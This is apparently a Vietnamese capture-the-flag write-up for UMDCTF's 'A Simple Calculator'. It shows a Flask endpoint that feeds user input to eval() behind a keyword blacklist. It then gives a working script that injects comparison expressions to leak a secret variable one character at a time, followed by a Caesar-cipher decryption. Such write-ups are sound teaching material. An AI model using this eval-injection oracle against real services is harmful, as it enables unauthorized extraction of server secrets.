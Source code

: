 # UMDCTF - A Simple Calculator

*source code*: https://drive.google.com/file/d/1H-VvvdStKw6ReLB2BXHYw9Zu4YLb6qIy/view?usp=sharing

## Review source code
```python
# .....
from secrets import flag_enc, ws
#....
def z(f: str):
    for w in ws:
        if w in f:
            raise Exception("nope")
    return True
# .....
@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
# .....
```
File `secrets.py` có chứa `flag_enc` và `ws` được import vào `app.py`. `ws` có chứa các blacklist keyword đã được dấu trước khi public source-code. Server nhận f parameter đi qua hàm z, nếu trùng với blacklist thì sẽ trả về lỗi còn nếu không thì được đi vào `eval()`. 

Fuzz qua thì biết được hàm `ord()` và một số kí tự khác như `\` bị block nên không thể bypass hàm `z` hay đọc result dạng từng số ascii nên ta sẽ brute-force `flag_enc` bằng cách cắt ra từng kí tự rồi so sánh từng cái thôi. 

**Python scripts**: Brute-force encrypted flag
```python
import requests
import string

url = 'https://calculator-w78ar.ondigitalocean.app/'
characters = string.ascii_letters + string.digits + string.punctuation
# val = f"{int(eval(request.json['f']))}"

flag = ''
for i in range(len(flag), 100):
    for c in characters:
        json = {
            "f": f"flag_enc[{i}:{i+1}] == '{c}'"
        }
        
        r = requests.post(url+'calc', json=json)
        result = r.json()['result']
        print(flag+c)
        
        if result == '1':
            flag += c
            print('[FOUND] : ' + flag)
            if c == '}':
                exit('done!')
            break
```

**encrypted flag**: `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`

Flag nhận được đã bị encrypt bằng hàm `encrypt()` trong file `secrets.py`. 

**Python scripts**: Decrypt encrypted flag
```python
FLAG = 'OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}'

def encrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            c_index = ord(c) - ord('A')
            c_shifted = (c_index + key) % 26 + ord('A')
            result += chr(c_shifted)
        elif c.islower():
            c_index = ord(c) - ord('a')
            c_shifted = (c_index + key) % 26 + ord('a')
            result += chr(c_shifted)
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def reverse(c, er):
    a = ord(c) - ord(er)
    if a >= 20:
        result = a - key + ord(er)
    else:
        result = a + 26 - key + ord(er)
    return chr(result)
    
def decrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            result += reverse(c, 'A')
        elif c.islower():
            result += reverse(c, 'a')
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
    
def find_key():
    for i in range(100):
        if encrypt('UMDCTF', i) == 'OGXWNZ':
            return i
            
key = find_key()
print(f'[KEY FOUND] : ' + str(key))

flag_dec = decrypt(FLAG, key)
flag_enc = encrypt(flag_dec, key)

print(flag_dec)
print(flag_enc)
```

**flag**: `UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}`
